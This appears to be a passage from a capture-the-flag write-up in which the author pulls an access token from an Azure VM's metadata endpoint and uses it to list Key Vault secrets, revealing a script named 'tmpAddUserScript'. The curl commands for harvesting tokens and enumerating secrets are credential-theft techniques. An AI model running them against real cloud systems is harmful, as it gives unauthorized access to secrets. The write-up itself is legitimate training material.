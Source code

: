 ```
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-10-30T13:17:02.532Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-10-30T13:17:02.532Z"},"properties":{"sku":{"family":"A","name":"Standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[],"enabledForDeployment":false,"enabledForDiskEncryption":false,"enabledForTemplateDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"enableRbacAuthorization":true,"vaultUri":"https://northpole-it-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-11-12T01:47:13.059Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-11-12T01:50:52.742Z"},"properties":{"sku":{"family":"A","name":"standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"0bc7ae9d-292d-4742-8830-68d12469d759","permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}},{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"1b202351-8c85-46f1-81f8-5528e92eb7ce","permissions":{"secrets":["get"]}}],"enabledForDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"vaultUri":"https://northpole-ssh-certs-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}}],"nextLink":"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXNzaC1jZXJ0cy1rdg=="}
```
We can see the vault URIs `https://northpole-it-kv.vault.azure.net/` and `https://northpole-ssh-certs-kv.vault.azure.net/`. I also saw some permissions information for the `northpole-ssh-certs-kv` vault like `permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}}`. This sounded promising so I focused on this vault first (hint: never assume one *must* correct without checking other options). 

AFter some trial and error with diffrent Keys and Secrets API enpoints, I determined the [Get Secrets API](https://learn.microsoft.com/en-us/rest/api/keyvault/secrets/get-secrets/get-secrets?view=rest-keyvault-secrets-7.4&tabs=HTTP) has what we need. This requires a different access token that the type we have been using for `management.azure.com`. We now need one for `vault.azure.net`, so let's get that first.

```
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s
{"access_token":"<ACCESSTOKENHERE>","client_id":"b84e06d3-aba1-4bcc-9626-2e0d76cba2ce","expires_in":"85627","expires_on":"1703195568","ext_expires_in":"86399","not_before":"1703108868","resource":"https://vault.azure.net","token_type":"Bearer"}
```
Then we use this access token to get the secrets on the vault.

```
curl -s -H "Authorization: Bearer <ACCESSTOKENHERE>" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4

{"value":[{"id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}],"nextLink":null}
```
We have a script name `tmpAddUserScript`, let's get more information on that secret.
